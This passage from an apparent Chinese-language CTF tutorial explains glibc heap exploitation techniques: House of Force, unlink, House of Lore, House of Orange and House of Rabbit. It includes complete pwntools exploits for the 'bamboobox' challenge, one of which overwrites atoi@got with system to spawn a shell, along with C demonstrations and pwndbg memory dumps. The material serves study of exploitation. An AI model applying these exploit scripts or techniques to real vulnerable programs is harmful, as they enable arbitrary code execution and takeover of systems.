0x603010:	0x0000000000400d49	0x0000000000400d49      //成功覆盖一开始的两个函数指针
0x603020:	0x0000000000000000	0x0000000000000029
0x603030:	0x6161616161616161	0x6161616161616161
0x603040:	0x6161616161616161	0x6161616161616161
0x603050:	0x6161616161616161	0x00ffffffffffffb1
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000000
0x603080:	0x0000000000000000	0x0000000000000000
0x603090:	0x0000000000000000	0x0000000000000000
```

执行脚本，输入5之后即可输出flag内容，因为此程序中有可利用的magic函数，故构造比较简单，如果想拿到shell，还需要通过HOF来篡改malloc@got.plt来实现劫持程序流程

##### 完整exp

```python
#-*- coding:utf-8 -*-
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']


p = process('./bamboobox')

e = ELF('./bamboobox')

malloc_plt_addr = e.plt['malloc']

def show_item(idx):
    p.recvuntil(':')
    p.sendline('1')

def add_item(size,name):
    p.recvuntil(':')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(str(size))
    p.recvuntil(':')
    p.sendline(name)

def change_item(idx,size,name):
    p.recvuntil(':')
    p.sendline('3')
    p.recvuntil(':')
    p.sendline(str(idx))
    p.recvuntil(':')
    p.sendline(str(size))
    p.recvuntil(':')
    p.sendline(name)

def remove_item(idx):
    p.recvuntil(':')
    p.sendline('4')
    p.recvuntil(':')
    p.sendline(str(idx))

add_item(0x20,'aaaa')
payload = 'a'*0x28+p64(0xffffffffffffffff)
change_item(0,0x30,payload)

offset = -(0x20+0x30)
malloc_size = offset-0x10-0xf
add_item(-0x60,'bbbb')
magic_addr = 0x0000000000400D49
payload = 'a'*8 + p64(magic_addr)
add_item(0x10,payload)
p.interactive()
```

##### unlink利用exp

当然，此题还可以利用unlink

思路：

+ unlink操作将chunk移到存储chunk指针的itemlist处
+ 泄露puts@got中的内容，得到libc基址
+ 向atoi@got中写入system函数地址

exp如下：

```python
# #-*- coding:utf-8 -*-
#use unlink
from LibcSearcher import LibcSearcher
from pwn import *

context(os='linux',arch='amd64',log_level='debug')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']


p = process('./bamboobox')
# p = remote('node4.buuoj.cn',26860)

e = ELF('./bamboobox')


def show_item(idx):
    p.recvuntil(':')
    p.sendline('1')

def add_item(size,name):
    p.recvuntil(':')
    p.sendline('2')
    p.recvuntil(':')
    p.sendline(str(size))
    p.recvuntil(':')
    p.sendline(name)

def change_item(idx,size,name):
    p.recvuntil(':')
    p.sendline('3')
    p.recvuntil(':')
    p.sendline(str(idx))
    p.recvuntil(':')
    p.sendline(str(size))
    p.recvuntil(':')
    p.sendline(name)

def remove_item(idx):
    p.recvuntil(':')
    p.sendline('4')
    p.recvuntil(':')
    p.sendline(str(idx))

# gdb.attach(p)
#unlink
#存储chunk指针的数组
head = 0x00000000006020C0
add_item(0x30,'aaaa')
add_item(0x80,'bbbb')
fd = head+0x8-0x18
bk = head+0x8-0x10
payload = p64(0)+p64(0x30)+p64(fd)+p64(bk)+'A'*0x10+p64(0x30)+p64(0x90)
change_item(0,0x40,payload)
remove_item(1)
#lake libc addr
puts_got_addr = e.got['puts']
puts_plt_addr = e.plt['puts']
atoi_addr = e.got['atoi']
payload = 'A'*0x18+p64(puts_got_addr)+'A'*8+p64(atoi_addr)
change_item(0,0x30,payload)
show_item(0)
p.recvuntil(':')
puts_addr = u64(p.recvuntil('\x7f')[-6:]+'\x00'*2)
print('puts_addr:'+hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
system_addr = libc_base+libc.dump('system')

change_item(1,0x8,p64(system_addr))
p.recvuntil(':')
p.sendline('/bin/sh\x00')
p.interactive()

```


## House of Lore

### 原理

House of Lore 攻击与 Glibc 堆管理中的 Small Bin 的机制紧密相关。House of Lore 可以实现分配任意指定位置的 chunk，从而修改任意地址的内存。

#### 产生原因

在malloc过程中，如果申请的大小在smallbin大小范围内，会执行如下代码：

```c
//第四步：如果申请的大小在smallbin范围内，那就在smallbin中寻找可利用的free chunk
  if (in_smallbin_range (nb))
    {
      idx = smallbin_index (nb);//得到对应smallbin的索引
      bin = bin_at (av, idx);//获取对应small对应的头指针
      //先执行 victim = last(bin)，获取 small bin 的最后一个 chunk
      //判断该bin是否为空，如果victim=bin，即为空，跳过下面的程序，转到largebin
      //如果不相等，会有下面两种情况
      if ((victim = last (bin)) != bin)
        {
          //1、对应的bin还没有初始化
          if (victim == 0) /* initialization check */
            //进行初始化，将fastbins中的chunk合并
            malloc_consolidate (av);
          //2、该smallbin中存在空闲的chunk
          else
            {
              //获取该bin的倒数第二个chunk指针地址
              bck = victim->bk;
              //检查bck—>fd是否为victim，防止伪造
	            if (__glibc_unlikely (bck->fd != victim))
                {
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
              //设置victim中对应的insue
              set_inuse_bit_at_offset (victim, nb);
              //修改相关指针，将victim(该smallbin中的最后一个chunk取出来)
              bin->bk = bck;
              bck->fd = bin;
              //如果不是main_arena，设置对应的size位
              if (av != &main_arena)
                victim->size |= NON_MAIN_ARENA;
              //检查该chunk的size的最低位是否为1
              check_malloced_chunk (av, victim, nb);
              //将取到的chunk转化成mem模式
              void *p = chunk2mem (victim);
              //如果设置了perturb_type，则将获取到的chunk初始化为perturb_type ^ 0xff
              alloc_perturb (p, bytes);
              return p;//返回
            }
        }
    }
```

其中在这段代码比较关键

```c
              //获取该bin的倒数第二个chunk指针地址
              bck = victim->bk;
              //检查bck—>fd是否为victim，防止伪造
	            if (__glibc_unlikely (bck->fd != victim))
                {
                  errstr = "malloc(): smallbin double linked list corrupted";
                  goto errout;
                }
              //设置victim中对应的insue
              set_inuse_bit_at_offset (victim, nb);
              //修改相关指针，将victim(该smallbin中的最后一个chunk取出来)
              bin->bk = bck;
              bck->fd = bin;
```

small bin中的最后一个chunk的bk指向指定内存地址的fake chunk，同时保证满足**bck->fd == victim**，分配之后，此时fake chunk成为了unsortbin的最后一个chunk，即下一次申请unsortedbin的时候会分配fake chunk

#### 利用条件

+ 需要控制 Small Bin Chunk 的 bk 指针
+ 控制指定位置 chunk 的 fd 指针

#### 利用思路

+ 构造满足条件的的fake chunk1，然后分配大小一样的small bin(前提是small bin链中有chunk)
+ 此时small bin尾部的chunk返回给用户，fake chunk1进入small bin尾部
+ 构造满足条件的fake chunk2，然后分配一样大小的small bin
+ 成功分配到fake chunk1

### 示例

请看ctf wiki：https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-lore/#_3

## House of Orange

### 原理

House of Orange 的利用比较特殊，首先需要目标漏洞是堆上的漏洞但是特殊之处在于题目中**不存在 free 函数或其他释放堆块的函数。我们知道一般想要利用堆漏洞，需要对堆块进行 malloc 和 free 操作，但是在 House of Orange 利用中无法使用 free 函数，因此 House of Orange 核心就是通过漏洞利用获得 free 的效果。**

#### 产生原因

**当前堆的 top chunk 尺寸不足以满足申请分配的大小的时候，原来的 top chunk 会被释放并被置入 unsorted bin 中**，通过这一点可以在没有 free 函数情况下获取到 unsorted bins。

按照malloc流程，假设目前的 top chunk 已经不满足 malloc 的分配需求。 首先我们在程序中的malloc调用会执行到 libc.so \_int_malloc函数中，在\_int_malloc函数中，会依次检验 fastbin、small bins、unsorted bin、large bins 是否可以满足分配要求，因为尺寸问题这些都不符合。接下来_int_malloc函数会试图使用 top chunk，在这里 top chunk 也不能满足分配的要求,故会执行下面代码：

```c
 /*
         Otherwise, relay to handle system-dependent cases
       */
      //使用sysmalloc从系统中分配内存
      else
        {
          void *p = sysmalloc (nb, av);
          if (p != NULL)
            alloc_perturb (p, bytes);
          return p;
        }
```

此时 ptmalloc 已经不能满足用户申请堆内存的操作，需要执行 sysmalloc 来向系统申请更多的空间。 但是对于堆来说有 mmap 和 brk 两种分配方式，我们**需要让堆以 brk 的形式拓展，之后原有的 top chunk 会被置于 unsorted bin 中**。

转到sysmalloc定义，想要使用brk扩展，需要绕过下面代码(第一步绕过)：

```
if (av == NULL
      || ((unsigned long) (nb) >= (unsigned long) (mp_.mmap_threshold)
	  && (mp_.n_mmaps < mp_.n_mmaps_max)))
```

如果满足if条件，即如果所需分配的 chunk 大小大于 mmap 分配阈值，默认为 128K，并且当前进程使用 mmap() 分配的内存块小于设定的最大值，将使用 mmap() 系统调用直接向操作系统申请内存；**故需要使malloc申请的空间不能大于mp_.mmap_threshold**

第二步绕过：

未能执行上面if中的代码后，会来到下面这个判断(检查top chunk的合法性)：

```c
/*
     If not the first time through, we require old_size to be
     at least MINSIZE and to have prev_inuse set.
   */

  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
```

如果第一次调用本函数，top chunk 可能没有初始化，所以可能 old_size 为 0。 如果 top chunk 已经初始化了，那么 top chunk 的大小必须大于等于 MINSIZE，因为 top chunk 中包含了 fencepost，所以 top chunk 的大小必须要大于 MINSIZE。其次 top chunk 必须标识前一个 chunk 处于 inuse 状态，并且 top chunk 的结束地址必定是页对齐的。此外 top chunk 除去 fencepost 的大小必定要小于所需 chunk 的大小，否则在_int_malloc() 函数中会使用 top chunk 分割出 chunk。

#### 利用条件

伪造的top chunk size满足的条件：

+ 伪造的size必须要对齐到内存页
+ size要大于MINSIZE
+ size要小于之后申请的chunk size+MINSIZE
+ size的prev inuse位必须为1
+ malloc的大小不能大于mmap分配阈值

#### 利用思路

+ 篡改top chunk size
+ 分配比top chunk size大的chunk
+ 现在原来的top chunk进入unsorted bin中，再次malloc就会从unsorted bin中切分需要的大小，剩余部分作为新的unsorted bin

### 示例

#### 示例一

源码：

```c
#include <stdlib.h>
#define fake_size 0x1fe1

int main(void)
{
    void *ptr;

    ptr=malloc(0x10);
    ptr=(void *)((long long)ptr+24);

    *((long long*)ptr)=fake_size;

    malloc(0x2000);

    malloc(0x60);
}
```

首先分配一个chunk用于更改top chunk size，断点下在第9行

```
pwndbg> x /10gx 0x405000
0x405000:	0x0000000000000000	0x0000000000000021      //chunk1
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000020fe1      //top chunk
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0x0000000000000000
```

篡改top chunk size后，断点下在第13行

```
pwndbg> x /10gx 0x405000
0x405000:	0x0000000000000000	0x0000000000000021
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000001fe1        //被篡改
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0x0000000000000000
```

分配比top chunk还大的chunk，断点下在15行

```
pwndbg> heap
Allocated chunk | PREV_INUSE             //chunk1
Addr: 0x405000
Size: 0x21

Free chunk (unsortedbin) | PREV_INUSE   //将之前的top chunk加入到unsorted bin
Addr: 0x405020
Size: 0x1fc1
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78

Allocated chunk                          //忽略下面
Addr: 0x406fe0
Size: 0x10

Allocated chunk | PREV_INUSE
Addr: 0x406ff0
Size: 0x11

Allocated chunk
Addr: 0x407000
Size: 0x00

```

分配一个chunk利用，断点下在16行

```
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x405000
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x405020
Size: 0x71

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x405090
Size: 0x1f51
fd: 0x7ffff7dd1b78
bk: 0x7ffff7dd1b78
...


pwndbg> x /25gx 0x405000
0x405000:	0x0000000000000000	0x0000000000000021
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000000071     //新分配的chunk
0x405030:	0x00007ffff7dd2208	0x00007ffff7dd2208     //这里可利用
0x405040:	0x0000000000405020	0x0000000000405020
0x405050:	0x0000000000000000	0x0000000000000000
0x405060:	0x0000000000000000	0x0000000000000000
0x405070:	0x0000000000000000	0x0000000000000000
0x405080:	0x0000000000000000	0x0000000000000000
0x405090:	0x0000000000000000	0x0000000000001f51      //切割剩余的chunk
0x4050a0:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x4050b0:	0x0000000000000000	0x0000000000000000
0x4050c0:	0x0000000000000000

```

进行分配之后我们可以观察到原来的堆经过了 brk 扩展

分配前：


分配后：



**重点：**伪造top chunk size，上面的条件都比较好满足，只有对齐内存页较困难

什么是对齐到内存页呢？我们知道现代操作系统都是以内存页为单位进行内存管理的，一般内存页的大小是 4kb。那么我们伪造的 size 就必须要对齐到这个尺寸。在覆盖之前 top chunk 的 size 大小是0x20fe1，通过计算得知 0x405020+0x20fe0=0x426000 是对于0x1000（4kb）对齐的。故我们伪造的 fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size就可以。

错误示例请参考https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-orange/#_4

## House of Rabbit

### 原理

House of rabbit 是一种伪造堆块的技术，一般应用在fastbin attack

#### 产生原因

fastbin 中会把相同的 size 的被释放的堆块用一个单向链表管理，分配的时候会检查 size 是否合理，如果不合理程序就会异常退出。而 house of rabbit 就利用了在 malloc consolidate 的时候 fastbin 中的堆块进行合并时 size 没有进行检查从而伪造一个假的堆块，为进一步的利用做准备

#### 利用条件

+ 可以修改 fastbin 的 fd 指针或 size 

+ 可以触发 malloc consolidate

#### 利用思路

修改 fastbin chunk 的 size(如示例一所示) 直接构造 overlap chunk，或者修改 fd(如示例二所示)，让它指向一个 fake chunk，触发 malloc consolidate 之后让这个 fake chunk 成为一个合法的 chunk

House of rabbit 的优点是容易构造 overlap chunk，由于可以基于 fastbin attack，甚至不需要 leak 就可以完成攻击

### 示例

#### 一：修改size

源代码：

```c
#include<malloc.h>

int main(){
	unsigned long* chunk1=malloc(0x40); //0x55555555b000
	unsigned long* chunk2=malloc(0x40); //0x55555555b050
	malloc(0x10);
	free(chunk1);
	free(chunk2);
	chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
    malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
	return 0;
}
```

在第9行下断点，先观察两个chunk加入fastbins

```
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE        //chunk1
Addr: 0x55555555b000
Size: 0x51
fd: 0x00

Free chunk (fastbins) | PREV_INUSE        //chunk2
Addr: 0x55555555b050
Size: 0x51
fd: 0x55555555b000                        //指向chunk1

Allocated chunk | PREV_INUSE
Addr: 0x55555555b0a0
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x55555555b0c0
Size: 0x20f41
```

执行9、10行，在11行下断点，观察：

```
pwndbg> heap
Free chunk (smallbins) | PREV_INUSE   //chunk1和chunk2合并
Addr: 0x55555555b000
Size: 0xa1
fd: 0x7ffff7dd1c08
bk: 0x7ffff7dd1c08

Allocated chunk                       //malloc(0x10)
Addr: 0x55555555b0a0
Size: 0x20

Allocated chunk | PREV_INUSE          //malloc(0x1000)
Addr: 0x55555555b0c0
Size: 0x1011

Top chunk | PREV_INUSE
Addr: 0x55555555c0d0
Size: 0x1ff31

pwndbg> x /20gx 0x55555555b000
0x55555555b000:	0x0000000000000000	0x00000000000000a1     //第9行篡改
0x55555555b010:	0x00007ffff7dd1c08	0x00007ffff7dd1c08
0x55555555b020:	0x0000000000000000	0x0000000000000000
0x55555555b030:	0x0000000000000000	0x0000000000000000
0x55555555b040:	0x0000000000000000	0x0000000000000000
0x55555555b050:	0x0000000000000000	0x0000000000000051
0x55555555b060:	0x00007ffff7dd1bb8	0x00007ffff7dd1bb8
0x55555555b070:	0x0000000000000000	0x0000000000000000
0x55555555b080:	0x0000000000000000	0x0000000000000000
0x55555555b090:	0x0000000000000000	0x0000000000000000
pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x50: 0x55555555b050 —▸ 0x7ffff7dd1bb8 (main_arena+152) ◂— 0x55555555b050
0xa0: 0x55555555b000 —▸ 0x7ffff7dd1c08 (main_arena+232) ◂— 0x55555555b000     //overlap chunk
largebins
empty

```

为什么为产生两个small bin，请根据malloc consolidate 源码分析，很简单的！

#### 二、修改fd指针

程序：

```c
#include<malloc.h>

int main(){
	unsigned long* chunk1=malloc(0x40); //0x405000
	unsigned long* chunk2=malloc(0x100);//0x405050

	chunk2[1]=0x31; //fake chunk size 0x30
	chunk2[7]=0x21;  //fake chunk's next chunk
	chunk2[11]=0x21; //fake chunk's next chunk's next chuck
	free(chunk1);
	chunk1[0]=0x602060;// modify the fd of chunk1
	malloc(5000);// malloc a  big chunk to trigger malloc consolidate
    return 0;
}
```

查看修改后的结果，第10步下断点

```
pwndbg> x /30gx 0x405000
0x405000:	0x0000000000000000	0x0000000000000051       //chunk1
0x405010:	0x0000000000000000	0x0000000000000000
0x405020:	0x0000000000000000	0x0000000000000000
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0x0000000000000000
0x405050:	0x0000000000000000	0x0000000000000111        //chunk2
0x405060:	0x0000000000000000	0x0000000000000031        //7修改
0x405070:	0x0000000000000000	0x0000000000000000
0x405080:	0x0000000000000000	0x0000000000000000
0x405090:	0x0000000000000000	0x0000000000000021        //8修改
0x4050a0:	0x0000000000000000	0x0000000000000000
0x4050b0:	0x0000000000000000	0x0000000000000021        //11修改
0x4050c0:	0x0000000000000000	0x0000000000000000
0x4050d0:	0x0000000000000000	0x0000000000000000
0x4050e0:	0x0000000000000000	0x0000000000000000
```

释放chunk1，第12步下断点

```
pwndbg> heap
Free chunk (fastbins) | PREV_INUSE     //chunk1
Addr: 0x405000
Size: 0x51
fd: 0x405060

Allocated chunk | PREV_INUSE           //chunk2
Addr: 0x405050
Size: 0x111

Top chunk | PREV_INUSE
Addr: 0x405160
Size: 0x20ea1

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x405000 —▸ 0x405060 ◂— 0x0         //通过构造chunk1的fd伪造的bin链
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
empty
largebins
empty
```

执行12行，在第13行下断点

```
pwndbg> heap
Free chunk (smallbins) | PREV_INUSE
Addr: 0x405000
Size: 0x51
fd: 0x7ffff7dd1bb8
bk: 0x7ffff7dd1bb8

Allocated chunk
Addr: 0x405050
Size: 0x110

Allocated chunk | PREV_INUSE
Addr: 0x405160
Size: 0x1391

Top chunk | PREV_INUSE
Addr: 0x4064f0
Size: 0x1fb11

pwndbg> bins
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
unsortedbin
all: 0x0
smallbins
0x30: 0x405060 —▸ 0x7ffff7dd1b98 (main_arena+120) ◂— 0x405060 /* '`P@' */
0x50: 0x405000 —▸ 0x7ffff7dd1bb8 (main_arena+152) ◂— 0x405000
largebins
empty
pwndbg> x /20gx 0x405000
0x405000:	0x0000000000000000	0x0000000000000051
0x405010:	0x00007ffff7dd1bb8	0x00007ffff7dd1bb8
0x405020:	0x0000000000000000	0x0000000000000000
0x405030:	0x0000000000000000	0x0000000000000000
0x405040:	0x0000000000000000	0x0000000000000000
0x405050:	0x0000000000000050	0x0000000000000110
0x405060:	0x0000000000000000	0x0000000000000031
0x405070:	0x00007ffff7dd1b98	0x00007ffff7dd1b98
0x405080:	0x0000000000000000	0x0000000000000000
0x405090:	0x0000000000000030	0x0000000000000020
```

### 链接

https://github.com/shift-crops/House_of_Rabbit


